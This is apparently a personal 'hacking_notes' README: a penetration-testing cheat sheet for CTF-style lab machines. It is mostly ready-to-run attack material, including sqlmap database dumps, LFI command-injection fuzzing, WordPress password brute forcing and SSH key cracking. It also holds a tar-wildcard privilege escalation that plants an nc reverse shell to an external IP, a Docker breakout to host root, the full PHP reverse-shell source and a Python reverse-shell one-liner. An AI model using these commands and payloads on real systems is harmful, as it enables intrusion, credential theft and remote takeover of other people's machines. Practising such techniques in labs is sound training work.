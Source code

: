 # hacking_notes

## Recon

### Scanning ports
```powershell
sudo nmap -A -o scan_agsv.txt 10.10.10.218
sudo nmap -sS -p- -o scan_full.txt 10.10.10.218
```
### Fuzzing files
```powershell
wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ.php
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt -u http://10.10.240.162:8001 -t 40
```

### Fuzzing dir
```powershell
gobuster -u http://broadcast.vulnnet.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster -u http://10.10.236.248 -w SecLists-master/Discovery/Web-Content/common.txt
wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
```

### Fuzzing subdomains
```powershell
wfuzz -w subdomains-top1million-5000.txt -H "Host: FUZZ.vulnnet.thm" --hc 200 10.10.236.248
```

### sqlmap
```powershell
sqlmap -r ./test_user --dbms=MySQL --technique=U --delay=3
sqlmap -r ./test_user --dbms=MySQL --current-db
sqlmap -r ./test_user --dbms=MySQL -D marketplace --dump
```

### LFI
```powershell
python ./panoptic.py --url http://vulnnet.thm/\?referer\=test
```

### Fuzzing for command executions via LFI 
```powershell
wfuzz -w SecLists-master/Discovery/Web-Content/burp-parameter-names.txt http://vulnnet.thm/\?\FUZZ\=id\;whoami\|\|ls
wfuzz --hh 5829 -w ~/Documents/SecLists-master/Discovery/Web-Content/burp-parameter-names.txt http://vulnnet.thm/\?\FUZZ\=/etc/passwd
```

### Wordpress
```powershell
wpscan --url http://10.10.255.124/blog --enumerate u
wpscan --url http://10.10.74.136/ --passwords /usr/share/wordlists/rockyou.txt --usernames user1,user2
```


## Cracking

### Crack ssh passphrase
```powershell
python ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

## Priv Esc

### tar wildcards
```powershell
cd target_dir
echo "mkfifo /tmp/bggenux; nc 10.9.4.192 4444 0</tmp/bggenux | /bin/sh >/tmp/bggenux 2>&1; rm /tmp/bggenux" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```
* [https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
* [https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/)


### Docker
```powershell
docker run -it -v /:/host/ <docker image> chroot /host/ bash
```
* [https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)


## Payloads

### PHP Reverse Shell

* [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```


### Python Reverse Shell

```powershell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Misc

### Start local server
```powershell
python -m SimpleHTTPServer
```

### Get tty in shell
```powershell
python3 -c'import pty;pty.spawn("/bin/bash")'
```

## TODO

[*] ftp
[*] hydra
[*] http bruteforce
[*] one line reverse shell
[*] check linux exploit
[*] smb (nmap script enum)
[*] john
